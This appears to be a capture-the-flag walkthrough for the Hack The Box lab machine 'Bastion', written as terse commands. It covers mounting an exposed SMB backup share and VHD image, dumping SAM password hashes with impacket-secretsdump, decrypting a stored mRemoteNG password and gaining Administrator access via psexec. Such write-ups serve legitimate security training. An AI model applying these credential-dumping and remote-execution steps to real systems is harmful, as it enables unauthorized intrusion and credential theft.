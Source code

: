 # Bastion Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA bastion 10.10.10.134``

22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)

135/tcp open  msrpc        Microsoft Windows RPC

445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds                                                                            

# ${{\color{purple}Initial Foothold}}\ $

``mkdir /mnt/smb``

### As a first step I mounted the backups folder of the smb share

``mount -t cifs //10.10.10.134/Backups /mnt/smb``

### In a second time I mounted the .vhd file which is a virtual disk
### To mount a .vhd file on linux it's possible to use guestmount :

``apt install guestmount``

``mkdir /mnt/vhd``

``guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd``

### It can take time if the vhd file is big !

``cd /Windows/System32/config``

``cp SAM SYSTEM /home/kali/Documents/htb/bastion``

![bastion2](https://user-images.githubusercontent.com/123066149/218385163-14ed7ce6-ac30-4d45-acaf-929e8253b7a8.PNG)


``/usr/bin/impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM local``

![bastion1](https://user-images.githubusercontent.com/123066149/218384858-42bb0c03-16c4-4561-aca4-1d63c05ee822.PNG)

### After having found the hash of the users with secretsdump it is possible to connect on the machine with the user L4mpje


# ${{\color{purple}Exploitation}}\ $

# ${{\color{purple}Privilege Escalation}}\ $

### There is an uncommon tool that is mRmoteNG in  C:\Program Files\mRemoteNG
> google mremoteng extract password

``git clone https://github.com/haseebT/mRemoteNG-Decrypt``

### Retrieve the config file :

``dir \a``  ### To find hidden files

``C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml``

python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

![image](https://user-images.githubusercontent.com/123066149/218386180-fbcfe581-776c-4815-b696-9bab0c1dedd0.png)

### It is possible to use this password to make a ssh in administrator on the box or use psexec

``/usr/bin/impacket-psexec Administrator@10.10.10.134``

![image](https://user-images.githubusercontent.com/123066149/218386923-00d9227d-f7ab-41f8-a12e-efc91fe1a06b.png)

# ${{\color{purple}Points of Improvement}}\ $


- Look at the dates in the files on windows
